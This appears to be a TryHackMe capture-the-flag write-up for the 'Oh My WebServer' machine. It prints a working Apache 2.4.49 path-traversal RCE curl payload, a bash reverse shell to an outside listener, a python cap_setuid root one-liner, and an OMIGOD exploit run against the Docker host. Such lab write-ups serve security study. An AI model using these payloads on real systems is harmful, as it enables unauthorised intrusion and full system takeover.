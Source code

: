 ```yaml
---
title : "Oh My WebServer - Write Up"
date : 2022-03-05T09:34:39+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "TryHackMe's medium level machine."
tags : ["CVE-2021-42013","RCE","Apache","Docker","OMIGOD","TryHackMe"]
---
```


| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/ohmyweb) | Medium | [tinyb0y](https://tryhackme.com/p/tinyb0y)  |

## Reconn
Hey! Welcome back!

Once again we are running `nmap` against this machine, to see what services are running!

```bash
└──╼ $sudo nmap -sS -sV -sC --min-rate 5000 10.10.239.45 -Pn -n
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-03-05 15:13 CET
Nmap scan report for 10.10.239.45
Host is up (0.13s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.49 (Unix)
|_http-title: Consult - Business Consultancy Agency Template | Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
A normal machine, with just 2 common ports open... 

But one thing that called our attention:
The web server (Port 80) is running on `apache/2.4.49`
For that version we have a CVE-2021-42013! You can find more information about it [here](https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013).

Just to confirm the version we did a simple `curl` request to the machine, to check the `Server` header.
```bash
└──╼ $curl -v http://10.10.239.45 | head
*   Trying 10.10.239.45:80...
 GET / HTTP/1.1
 Host: 10.10.239.45
 User-Agent: curl/7.74.0
 Accept: */* 

* Mark bundle as not supporting multiuse
HTTP/1.1 200 OK
Date: Sat, 05 Mar 2022 14:16:00 GMT
Server: Apache/2.4.49 (Unix)
Last-Modified: Wed, 23 Feb 2022 05:40:45 GMT
ETag: "e281-5d8a8e82e3140"
Accept-Ranges: bytes
Content-Length: 57985
Content-Type: text/html
```
And to check for the possible exploit, we checked the `cgi-bin` folder.

```bash
└──╼ $curl http://10.10.239.45/cgi-bin/
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
</body></html>
```
And it's active! 
So we can run the exploit and try luck!

```bash
└──╼ $curl 'http://10.10.239.45/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; whoami && pwd && id' -H "Content-Type: text/plain"
daemon
/bin
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
Yay! We have `RCE`!

## Foothold - User

To get a `reverse shell` we used 2 terminals. The first one is making a request with the exploit, and the second one is just waiting the connection.
```bash
=====Terminal 1======

└──╼ $curl 'http://10.10.239.45/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/10.9.1.30/1337 0>&1' -H "Content-Type: text/plain"


=====Terminal 2======

└──╼ $nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.9.1.30] from (UNKNOWN) [10.10.239.45] 40344
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
daemon@4a70924bafa0:/bin$ id;whoami;pwd
id;whoami;pwd
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon
/bin
daemon@4a70924bafa0:/bin$

```

And we are in! But we are running as a `daemon`, so we can't get the `user flag` :/

Enumerating the machine, we found out that the binary `python3.7` has the `cap_setuid` capability set! (You can learn more about how to exploit this with [GTFOBIN](https://gtfobins.github.io/gtfobins/python/#capabilities))

```bash
daemon@4a70924bafa0:/bin$ getcap -r / 2>/dev/null
/usr/bin/python3.7 = cap_setuid+ep

daemon@4a70924bafa0:/bin$ python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1(daemon) groups=1(daemon)
# cat /root/user.txt
THM{[REDACTED]}
```
Yes! We now are root inside a `docker` container and we can submit the user flag!

## Root

After enumerating _quite a lot_ the machine, we just guessed that there's maybe another machine (In this case the dockers's host) in the adyacent IP. So basically, that the host is on `172.17.0.1`, since we are the `172.17.0.2`

```bash
root@4a70924bafa0:/tmp# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 3122  bytes 383708 (374.7 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2172  bytes 2759329 (2.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2  bytes 100 (100.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2  bytes 100 (100.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
To confirm this assumption, we uploaded an static binary of `nmap` from out machine. You can download it from [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap).
And we ran it against the supposed Host's IP.
```bash
root@4a70924bafa0:/tmp# ./nmap 172.17.0.1 -p- --min-rate 5000

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-03-05 14:48 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.0014s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
MAC Address: 02:42:1A:89:70:8B (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 39.82 seconds
```
Yes! We were right!
And we have some open ports!

Searching on google for `port 5986 service exploit`, we found this POC:

https://github.com/AlteredSecurity/CVE-2021-38647

This exploit is against the `OHMIGOD` service, commonly runnnig on ports as `5986`.

Downloaded the exploit to the victim machine and tried to exploit it!

```bash
root@4a70924bafa0:/tmp# python3 exp.py -t 172.17.0.1 -c 'whoami;pwd;id;hostname;uname -a;cat /root/root.txt;'
root
/var/opt/microsoft/scx/tmp
uid=0(root) gid=0(root) groups=0(root)
ubuntu
Linux ubuntu 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
THM{[REDACTED]}
```
And we rooted the machine!

That's all from my side, hope you find this helpful!
